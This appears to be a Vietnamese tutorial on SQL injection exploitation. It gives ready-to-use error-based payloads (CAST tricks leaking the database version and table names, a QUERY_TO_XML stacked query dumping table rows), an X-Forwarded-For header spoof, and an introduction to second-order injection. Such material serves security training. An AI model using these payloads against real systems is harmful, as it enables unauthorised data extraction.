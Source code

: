 - Chặn yêu cầu bằng **Burp Suite** và thêm header:  
  ```plaintext
  X-Forwarded-For: 127.0.1.1
  ```

- Gửi lại yêu cầu và quan sát phản hồi. Nếu thành công, bạn sẽ thấy stack trace hoặc lỗi chi tiết được trả về.

---

#### **4. Khai thác thông báo lỗi để lộ thông tin:**

##### **Kỹ thuật ép kiểu không hợp lệ (Invalid Cast):**

1. **Lấy phiên bản cơ sở dữ liệu:**
   - Payload:  
     ```sql
     ' and 0=CAST((SELECT VERSION()) AS INT)--@test.com
     ```
   - Lỗi ép kiểu (`CAST`) sẽ tiết lộ phiên bản cơ sở dữ liệu trong thông báo lỗi.

2. **Lấy tên bảng từ `information_schema`:**
   - Payload:  
     ```sql
     ' and 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 1) AS INT)--@test.com
     ```

3. **Lấy tất cả tên bảng với `STRING_AGG`:**
   - Payload:  
     ```sql
     ' and 1=CAST((SELECT STRING_AGG(table_name, ',') FROM information_schema.tables) AS INT)--@test.com
     ```

##### **Dump dữ liệu bằng XML (nếu hỗ trợ stack queries):**

- Payload mẫu để xuất toàn bộ dữ liệu bảng:  
  ```sql
  ';SELECT CAST(CAST(QUERY_TO_XML('SELECT * FROM posts LIMIT 2', TRUE, TRUE, '') AS TEXT) AS INT)--@test.com
  ```

---


# 8. Khai thác SQL Injection bậc hai (Second-Order SQL Injection)

---

#### **1. Giới thiệu:**

- **Second-Order SQL Injection** xảy ra khi dữ liệu từ người dùng được lưu trữ trong cơ sở dữ liệu và sau đó được sử dụng trong một truy vấn SQL không an toàn ở một chức năng khác của ứng dụng.
- Lỗ hổng này khó phát hiện hơn so với SQLi thông thường vì:
  - Phải có hai bước: **lưu dữ liệu độc hại** và **kích hoạt khai thác**.
  - Cần hiểu rõ cách luồng dữ liệu di chuyển qua các phần khác nhau của ứng dụng.

---